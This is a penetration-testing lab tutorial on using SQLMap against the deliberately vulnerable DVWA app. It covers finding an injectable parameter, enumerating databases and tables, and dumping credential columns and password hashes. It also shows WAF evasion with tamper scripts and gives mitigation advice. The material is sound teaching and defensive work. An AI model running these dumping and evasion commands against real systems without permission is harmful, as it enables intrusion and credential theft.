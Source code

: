 ```yaml
---
title: Automating SQL Injection Using SQLMap
date: 2023-12-06 08:01:35 +0300
subtitle: Product Design
image: '/images/406.png'
---
```

# Lab 6: Automating SQL Injection Using SQLMap

## **Objective**
Learn how to use **SQLMap**, an open-source penetration testing tool, to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. This lab will also cover techniques for mitigating these vulnerabilities.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with SQLMap Installed**:
   - Verify SQLMap is installed:
     ```bash
     sqlmap --version
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install sqlmap
     ```

2. **Vulnerable Web Application**:
   - Use an intentionally vulnerable application like DVWA (Damn Vulnerable Web Application) or OWASP Juice Shop.
   - **Tip**: Ensure your DVWA security level is set to **low** for easier exploitation.

3. **Basic Understanding of SQL Injection**:
   - Familiarity with SQL commands and how applications use SQL queries to interact with databases.
   - **Insight**: SQL injection manipulates vulnerable queries to access unauthorized data or perform unauthorized actions.

---

## **Step 1: Setting Up the Environment**
1. Start your vulnerable web application.
   - For DVWA, ensure your web server and database server are running.
   - Access DVWA via `http://localhost/dvwa` in your browser.

2. Log in to DVWA (default credentials: `admin` / `password`).
3. Navigate to the **SQL Injection** module.

---

## **Step 2: Identifying the Vulnerable Parameter**
1. In the SQL Injection module of DVWA, enter a test value into the input field (e.g., `1`).
2. Observe the response:
   - If the page behaves differently when you add a single quote (e.g., `1'`), it may be vulnerable to SQL injection.
   - **Insight**: Error messages or unusual behavior are indicators of SQL vulnerabilities.

---

## **Step 3: Running SQLMap**
1. Capture the vulnerable request:
   - Use a browser extension like Burp Suite or OWASP ZAP to intercept and save the HTTP request.
   - Alternatively, note the URL and query string (e.g., `http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`).

2. Run SQLMap against the target:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
   ```
   - **`-u`**: Specifies the target URL.

3. Observe SQLMap’s output:
   - SQLMap will test for SQL injection vulnerabilities and display its findings.
   - **Tip**: Use the `--batch` option to skip confirmation prompts in automated scripts.

---

## **Step 4: Extracting Database Information**
1. Enumerate the database:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs
   ```
   - **`--dbs`**: Lists available databases.

2. Choose a database and enumerate its tables:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> --tables
   ```
   - Replace `<database_name>` with the target database (e.g., `dvwa`).

3. Choose a table and enumerate its columns:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> --columns
   ```
   - Replace `<table_name>` with the desired table (e.g., `users`).

4. Extract data from a table:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> -C <column_name> --dump
   ```
   - Replace `<column_name>` with the column to extract (e.g., `username,password`).

---

## **Step 5: Advanced SQLMap Options**
1. **Bypassing WAFs (Web Application Firewalls):**
   - Use tamper scripts to evade basic security mechanisms:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --tamper="space2comment"
     ```

2. **Testing All Parameters:**
   - If the application uses multiple parameters, test them all:
     ```bash
     sqlmap -u "http://target.com/page?id=1&name=test" --level=3 --risk=2
     ```
   - **Tip**: Higher `--level` and `--risk` values increase testing intensity.

3. **Identifying Database Type:**
   - Automatically detect the database type:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --dbms=mysql
     ```

4. **Extracting Password Hashes:**
   - Dump and crack password hashes:
     ```bash
     sqlmap -u "http://target.com/vulnerable" -D <database_name> -T <table_name> -C password --dump
     ```

---

## **Step 6: Mitigation Techniques**
1. **Use Parameterized Queries:**
   - Ensure user input is safely handled by the database using prepared statements.

2. **Validate and Sanitize Inputs:**
   - Reject unexpected characters or patterns in user inputs.

3. **Implement Web Application Firewalls (WAFs):**
   - Use a WAF to filter out malicious requests.

4. **Limit Database Privileges:**
   - Restrict user roles to minimize the impact of successful attacks.

5. **Perform Regular Security Audits:**
   - Regularly scan and test applications for vulnerabilities.

---

## **Step 7: Cleaning Up**
1. Remove any test payloads or reset the vulnerable application to its default state.
2. Document your findings and share them responsibly.

---

## **Additional Tips and Insights**
1. **Ethical Considerations:**
   - Only perform SQLMap tests on systems where you have explicit permission to do so.

2. **Automation Benefits:**
   - SQLMap automates much of the manual work involved in exploiting SQL injection vulnerabilities, saving time and reducing human error.

3. **Use in CTFs (Capture The Flag):**
   - SQLMap is a powerful tool for solving CTF challenges that involve web exploitation.

4. **Continuous Practice:**
   - Experiment with different flags, tamper scripts, and configurations to deepen your understanding.

---

## **Key Takeaways**
1. SQLMap is a robust tool for detecting and exploiting SQL injection vulnerabilities.
2. Understanding its features and outputs allows for efficient testing and data extraction.
3. Secure coding practices and regular vulnerability assessments are essential for preventing SQL injection attacks.
